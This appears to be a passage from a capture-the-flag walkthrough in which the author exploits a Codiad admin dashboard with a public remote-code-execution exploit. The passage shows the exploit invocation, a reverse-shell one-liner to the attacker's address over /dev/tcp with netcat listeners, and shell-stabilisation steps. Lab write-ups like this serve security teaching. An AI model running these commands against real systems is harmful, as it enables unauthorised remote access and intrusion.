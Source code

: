 ![dashboard](dashboard.png)</br>
We are at an admin dashboard. This is `Codiad`. Lets see what we can do.

## DASHBOARD EXPLOITATION

We know that it is `Codiad` from the `.git` repo in the IDE. So lets google around for an exploit, and we have one:
```
git clone https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit.git
```
```bash
$ python2 exploit.py http://admin:******@$IP/inferno/ 'admin' '******' 10.8.147.71 8888 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.8.147.71/8889 0>&1 2>&1"' | nc -lnvp 8888
nc -lnvp 8889
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
```
Run the two commands in seperate terminals (or seperate terminator windows). We have a shell!!!

### STABLE SHELL

Right, so here is the thing. If you stay in your `bash` shell, it gets killed. Because there is a process on the system that kills `/bin/bash`. How do we get around that? Well, we use the less comfortable `/bin/sh`:
```bash
python3 -c "import pty;pty.spawn('/bin/sh')"
export TERM=xterm;export SHELL=/bin/sh

//press Ctrl + Z

stty raw -echo;fg
```
Lets look around now.
